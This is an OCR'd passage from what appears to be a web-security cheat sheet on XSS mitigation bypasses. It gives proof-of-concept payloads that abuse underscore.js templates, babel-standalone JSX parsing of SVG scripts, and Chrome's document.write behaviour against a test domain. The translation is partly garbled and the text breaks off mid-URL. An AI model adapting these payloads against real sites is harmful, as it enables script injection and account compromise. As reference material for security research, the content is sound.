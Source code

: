 1. There is XSS that can write arbitrary tags
2. Pages on the same origin that host underscore.js or load from a CORS-enabled CDN
3. A script exists on the page or on the same origin that can execute template expansion for a specially crafted script tag

PoC:

(This example is for Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/underscore.html%3E%3Cscript%20id=template%3E//%3C %alert`1`%%3E%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/underscore.html%3E%3Cscript%20id=template%3E//%3C%alert%601%60%%3E%3C/script%3E)

```
<link rel=import href=/bypass/underscore.html><script id=template>//<%alert`1`%></script>
```

#### Using JSX transformation scripts such as JSXTransformer/babel-standalone

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Pages on the same origin that host JSX transformation scripts such as JSXTransformer.js or load them from a CORS-enabled CDN

supplement:

Take advantage of the conversion script parsing SVG script blocks in the same way as HTML script blocks. The comment part enclosed by is evaluated as a script because `<!--`it is not actually executed .`-->`

PoC:

(This example is for Chrome only) [https://vulnerabledoma.in/bypass/text?charset=utf-8&type=1&q=%3Clink%20rel=import%20href=/bypass/babel-standalone.html%3E%3Csvg%3E %3Cscript%20type=%22text/jsx%22%3E//%3C!--%0aalert(1)//--%3E%3C/svg%3E%3Cscript%3E0%3C/script%3E](https://vulnerabledoma.in/bypass/text?charset=utf-8&type=1&q=//0)

```
<link rel=import href=/bypass/babel-standalone.html><svg><script type=text/jsx>//<!--
alert(1)//--></svg><script>0</script>
```

### `document.write()`Occasionally use half-baked tags (Chrome only)

Conditions for attacking:

1. `document.write()`There is an XSS that renders the URL
2. The tag used for the attack `document.write()`can be closed outside (in the case of the PoC below, `</body>`is used as the closing tag)

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=421786

PoC:

[https://vulnerabledoma.in/bypass/dom_docwrite#%3Cimg%20src=x%20onerror=alert(1)//](https://vulnerabledoma.in/bypass/dom_docwrite#
